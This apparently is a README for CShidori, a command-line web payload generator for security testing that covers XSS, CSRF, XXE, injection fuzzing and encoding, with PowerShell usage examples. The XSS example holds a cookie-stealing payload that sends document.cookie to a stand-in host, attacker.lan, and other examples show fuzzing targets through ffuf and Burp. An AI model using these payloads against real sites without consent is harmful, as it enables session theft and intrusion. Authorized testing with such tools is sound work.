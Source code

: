 # CShidori

Web payloads generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Payloads generation

- Fuzzing list
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Mutation
- Encoding

## Exemples

### Combine a wordlist with Chidori to test a specific parameter:

```powershell
gc wordlist.txt |%{ .\CShidori.exe xss "$_" }
gc wordlist.txt |%{ .\CShidori.exe mut 5 "$_" }
```

### Generate get/post requests to tests

```powershell
.\CShidori.exe bc |%{ .\CShidori.exe get "?bar=foo&foo=bar" $_ }
.\CShidori.exe bc |%{ .\CShidori.exe json request.json $_ }
.\CShidori.exe bc |%{ .\CShidori.exe xml request.xml $_ }  
```

### Then send generated payloads with your usual tool

exemple with Ffuf through Burp
```powershell
.\CShidori.exe bc > list ; .\ffuf.exe -u https://target/FUZZ -w list:FUZZ -replay-proxy http://127.0.0.1:8080
```

## Usage

### XSS / Injections

```powershell
.\CShidori.exe xss 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe json ..\testing\test.json "'"
```

### XML

```powershell
.\CShidori.exe xml ..\testing\exemple.xml "'"
```

### GET

```powershell
.\CShidori.exe get "?bar=foo&foo=bar" "'"
```

### CSRF

```powershell
.\CShidori.exe csrf post http://target.lan "name1=value1&name2=value2"
.\CShidori.exe csrf get http://target.lan "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe xxe file
.\CShidori.exe xxe call 
.\CShidori.exe xxe all
```

### Mutation

```powershell
.\CShidori.exe mut 5 test
```

### Encode

```powershell
.\CShidori.exe enc "<script>alert(1)</script>"
```


## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can did it with Visual studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
